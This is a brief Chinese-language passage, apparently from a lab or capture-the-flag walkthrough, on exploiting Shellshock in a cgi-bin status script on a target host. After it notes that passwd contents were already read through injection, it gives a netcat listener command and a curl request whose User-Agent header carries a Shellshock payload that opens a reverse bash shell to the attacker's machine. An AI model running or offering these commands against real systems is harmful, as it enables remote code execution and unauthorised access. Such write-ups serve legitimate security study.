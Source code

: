 ![13-1.png](13-1.png)


首先可以通过注入看到 passwd 文件。这也说明这个漏洞是存在的, 接下来只需要构造一个 payload 获得反弹 shell 即可。

在 kali 上打开端口 443 的监听:

```bash
nc -lvnp 443
```

然后构造以下 payload 并发送数据:

```bash
sudo curl -v --proxy http://192.168.170.138:3128 http://192.168.170.138/cgi-bin/status -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.170.135/443 0>&1'"
```
